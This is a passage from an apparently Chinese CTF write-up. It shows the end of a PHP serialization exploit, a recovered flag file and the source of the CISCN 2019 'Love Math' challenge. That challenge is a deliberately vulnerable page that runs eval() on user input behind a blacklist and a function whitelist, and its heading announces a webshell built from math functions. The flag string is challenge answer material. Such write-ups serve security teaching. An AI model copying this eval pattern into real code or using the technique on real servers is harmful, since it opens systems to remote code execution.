 ```php
$a->source = $b;

echo urlencode(serialize($a));

?>
```

base64 解码后得到 flag

```php
<?php
class Flag{
    private $flag= "flag{6e942f00-89fe-4787-b8b2-a01b80930d5e}";
}
echo "Help Me Find FLAG!";
?>
```

## [CISCN 2019 初赛]Love Math(base_convert()、hex2bin()等数学函数构造webshell)

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

